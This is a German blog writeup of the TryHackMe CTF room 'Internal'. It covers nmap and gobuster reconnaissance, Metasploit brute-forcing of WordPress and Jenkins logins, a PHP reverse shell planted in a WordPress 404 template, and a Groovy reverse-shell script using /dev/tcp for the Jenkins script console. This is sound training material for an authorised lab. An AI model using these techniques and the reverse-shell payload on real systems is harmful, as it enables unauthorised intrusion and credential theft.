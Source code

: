 ```yaml
---
title: TryHackMe Internal writeup
description: Ein writeup zu dem TryHackMe Raum Internal. Es kommen verschiedene Techniken und Tools, wie nmap, GoBuster und Metasploit zum Einsatz.
tags:
 - security
 - linux
 - ctf
header:
 image: /images/header_keyboard.jpg
 image_description: "Foto einer Computertastatur."
 caption: "Photo credit: [pexels.com](https://pexels.com)"
---
```


Nachdem ich gerade erst einen writeup für TryHackMe rootme geschrieben habe, gibt es jetzt einen weiteren für [Internal](https://tryhackme.com/room/internal).
Internal ist als Black Box Penetration Test angelegt. Das heißt über die Infrastruktur, welche man auf Schwachstellen untersuchen muss, gibt es keine weiteren Informationen. Lediglich die IP-Adresse des Ziels ist bekannt und man weiß, dass zwei Flags zu finden sind: eine User.txt mit normalen Privilegien und eine Root.txt, für welche man root Privilegien benötigt.

## Vorwort

Vorweg der übliche Disclaimer: ihr könnt die Tools, welche hier vorgestellt werden für euer eigenes Netzwerk verwenden oder im Rahmen eines Penetration Tests einsetzen, wenn ihr dafür beauftragt wurdet. Jedoch dürft ihr diese Tools niemals gegen fremde Systeme ohne explizite Erlaubnis einsetzen.

## Aufklärung

Als allererstes modifizieren wir unsere Hostfile, sodass internal.thm auf die IP-Adresse des Ziels zeigt.

Dann starten wir mit der Aufklärung und der ersten Informationsgewinnung. Hierfür nutzen wir nmap, um Informationen über offene Ports, Dienste und das Betriebssystem zu erlangen. 

Wir nutzen folgenden Befehl, mit welchem der Output auch in eine Textdatei ausgegeben wird.

`nmap -A $ipaddress -o nmap.txt`

{:refdef: style="text-align: center;"}
![Ergebnis des nmap Scans]({{ site.baseurl }}/images/nmap_internal.png)
{: refdef}

Folgende Ergebnisse lieferte der Scan

* Port 22 für SSH ist offen
* Port 80 ebenfalls offen. Dahinter läuft ein Apache Webserver in der Version 2.4.29
* Das Betriebssystem ist wahrscheinlich ein Ubuntu Linux

## Untersuchung des Webservers

Rufen wir http://internal.thm mit unserem Webbrowser auf erscheint die Apache2 Ubuntu Default Page. Ein Scan mit Gobuster offenbart, dass unter /blog ein WordPress Blog zu finden ist.

 `gobuster -u http://$ip -w /opt/wordlists/directory-list-2.3-small.txt`

Wie in vergangenen Walkthroughs wurde hier die directory-list-2.3-small.txt von
[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt) verwendet.

Weitere Ergebnisse des Scans sind unter anderem eine Instanz von phpmyadmin unter /phpmyadmin. Wir konzentrieren uns hier auf die Untersuchung von WordPress und schauen, ob wir uns hierüber einen Zugang zum Server verschaffen können. Über die URL `http://internal.thm/blog/?author=1` finden wir heraus, dass es einen WordPress User mit dem Namen admin gibt. 

{:refdef: style="text-align: center;"}
![WordPress zeigt den Namne des Users admin]({{ site.baseurl }}/images/wordpress_user.png)
{: refdef}

Es gibt jetzt sicherlich mehrere Methoden, wie man an dieser Stelle fortfahren könnte. Ich habe mich für Brute Force mit dem Metasploit Modul `auxiliary/scanner/http/wordpress_login_enum` entschieden. In diesem Fall müssen folgende Optionen gesetzt werden:

* set rhosts internal.thm
* set targeturi /blog
* set stop_on_success true
* set username admin
* set pass_file /opt/wordlists/rockyou.txt (je nachdem welchen Pfad und Wordlist ihr verwendet)

{:refdef: style="text-align: center;"}
![Codeausschnitt der php-reverse-shell]({{ site.baseurl }}/images/wppw_internal.png)
{: refdef}

Mit den Zugangsdaten kann man sich nun unter `http://internal.thm/blog/wp-login.php` einloggen. Unter Appearance / Theme Editor finden wir das 404 Template (404.php). Hier können wir eine [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) platzieren und müssen anschließend nur einen 404 Error produzieren, um einen Zugang zum Server zu erhalten. In dem Code der reverse-shell müssen wir nur noch die IP und den Port anpassen.

{:refdef: style="text-align: center;"}
![Codeausschnitt der php-reverse-shell]({{ site.baseurl }}/images/phpshell_internal.png)
{: refdef}

Mit Netcat warten wir auf die Verbindung auf dem zuvor festgelegten Port: `nc -lvnp 4444`. Anschließend noch mit einer auf dem Server nicht existenten URL einen Error 404 hervorrufen, zum Beispiel mit: `http://internal.thm/blog/index.php/2020/08/03/give-access-pls/`

{:refdef: style="text-align: center;"}
![Screenshot der Shell]({{ site.baseurl }}/images/wordpress_shell.png)
{: refdef}

Nun haben wir eine Shell und finden unter /opt/ die Datei wp-save.txt. Darin finden wir Logindaten, welche wir für eine SSH-Verbindung nutzen können.

{:refdef: style="text-align: center;"}
![Textdatei mit Logindaten via SSH.]({{ site.baseurl }}/images/sshlogin_internal.png)
{: refdef}

Loggen wir uns per SSH ein, finden wir im home-Verzeichnis des Users auch direkt die Flag user.txt

{:refdef: style="text-align: center;"}
![Screenshot der Textdatei mit der Userflag user.txt.]({{ site.baseurl }}/images/userflag_internal.png)
{: refdef}

Neben der Flag finden wir eine jenkins.txt, in welcher ein Hinweis auf eine lokale Jenkins-Instanz unter 172.17.0.2:8080 steht, welche als Docker-Container läuft. Mit `ssh -L 5555:localhost:8080 aubreanna@internal.thm` leiten wir den Port 5555 auf unserer lokalen Maschine an den Port 8080 auf der remote Maschine weiter und können so Jenkins im Browser via http://localhost:5555 erreichen. Dort sehen wir dann das Loginformular von Jenkins.

{:refdef: style="text-align: center;"}
![Loginformular von Jenkins.]({{ site.baseurl }}/images/jenkins_internal.png)
{: refdef}

Mit Metasploit finden wir die Logindaten für den default User admin heraus. Dazu wird das Modul `auxiliary/scanner/http/jenkins_login` mit folgenden Optionen verwendet:

* set rhosts localhost
* set rport 5555
* set username admin
* set pass_file /opt/wordlists/password-top10000.txt (hier wieder den Pfad der Passwortdatei eurer Wahl einfügen)
* set stop_on_success true

{:refdef: style="text-align: center;"}
![Loginformular von Jenkins.]({{ site.baseurl }}/images/jenkinslogin_internal.png)
{: refdef}

Wenn wir uns mit diesen Logindaten in Jenkins eingeloggt haben, können wir unter http://localhost:5555/script die Skript-Konsole von Jenkins aufrufen. Hier ist es uns möglich ein Skript für eine reverse-shell auszuführen. Anzupassen sind die IP und der Port hinter /tcp/ .

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

Nun nutzen wir wieder Netcat mit `nc -lvnp 1234` und führen das Jenkins Skript aus. Wir erhalten eine Shell im Jenkins Container, wo wir unter /opt/ eine note.txt mit root-credentials finden.

{:refdef: style="text-align: center;"}
![Root Logindaten aus der note.txt.]({{ site.baseurl }}/images/rootcreds_internal.png)
{: refdef}

Mit den erbeuteten Zugangsdaten loggen wir uns per SSH ein und finden direkt die root.txt mit der Flag.

{:refdef: style="text-align: center;"}
![Root Logindaten aus der note.txt.]({{ site.baseurl }}/images/rootflag_internal.png)
{: refdef}

Wenn ihr andere Lösungsansätze gefunden habt, oder Fragen zu dieser Capture the Flag Challenge habt, meldet euch gerne bei [Twitter](https://twitter.com/julian0x1).
